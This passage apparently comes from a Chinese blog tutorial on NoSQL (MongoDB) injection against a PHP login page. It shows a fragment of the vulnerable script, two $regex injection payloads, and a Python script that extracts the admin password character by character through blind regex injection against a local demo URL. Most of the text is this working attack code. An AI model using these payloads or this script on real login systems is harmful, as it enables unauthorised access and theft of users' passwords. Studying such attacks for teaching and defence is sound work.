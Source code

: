 ```
        echo 'password:' . $user['password'] . '&lt;br&gt;';
    }
}
else{
    echo 'Login Failed';
}
?&gt;

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2233fe56eee9410dbf4961d668342f90.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9d6cb26455c64b6da4161c7b5ec408dc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center"/>

> 



```
username=admin&amp;password[$regex]=a.{7}
或
username=admin&amp;password[$regex]=^a

```

> 



```
import requests
import string

password = ''
url = 'http://127.0.0.1/html/demo.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&amp;', '$']:
            
            # When the method is GET
            get_payload = '?username=admin&amp;password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json
            
            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
                password += c

```
